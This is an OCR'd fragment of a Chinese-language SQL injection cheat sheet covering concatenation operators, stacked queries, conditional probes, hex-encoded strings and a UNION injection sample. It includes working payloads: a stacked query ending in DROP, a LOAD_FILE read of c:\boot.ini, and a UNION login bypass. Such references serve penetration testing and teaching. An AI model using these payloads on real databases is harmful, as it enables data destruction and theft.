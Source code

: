 * 数据库连接运算符
    + MySQL:
        + 'ab'='a' 'b'
        + CONCAT(str1, str2, str3)

        > SELECT CONCAT(login, password) FROM members

    + SQL Server:
        + 'ab'='a'+'b'
    + Oracle, PostgreSQL:
        + 'ab'='a'||'b'

* 堆叠查询
    + ; {S}

    > SELECT * FROM members; DROP member\-\-

* if语句
    + IF(condition, true-part, false-part) {M}

    > SELECT IF(1=1,'true','false')

    + IF condition true-part ELSE false-part {S}

    > IF (1=1) SELECT 'true' ELSE SELECT 'false'

    + attack sample

    > if ((select user)='sa' OR (select user)='dbo') select 1 else select 1/0 {S}

* 整数的使用
    + 0xHEXNUMBER {SM}
        + SELECT CHAR(0x66) {S}
        + SELECT 0x5045 {M} \-\-这不是整数而是16进制串
        + SELECT 0x50+0x45 {M} \-\-现在是整数了

* 没有引号的字符串
    + CHAR {SM}
    + CONCAT {M}

    > SELECT CONCAT(CHAR(75),CHAR(76)) => 'KL'

    + 0x457578 {M} \-\-16进制字符串
    + attack sample

    > SELECT LOAD_FILE(0x633A5C626F6F742E696E69) {M} => 'c:\bot.ini'

* 字符串Modification
    + ASCII() {SMP}
    + CHAR() {SM}

### 2. UNION注入

* sample

    > ' union select 1, 'anotheruser', 'not matter', 1\-\-

* 语言处理
    + Hex() {M}
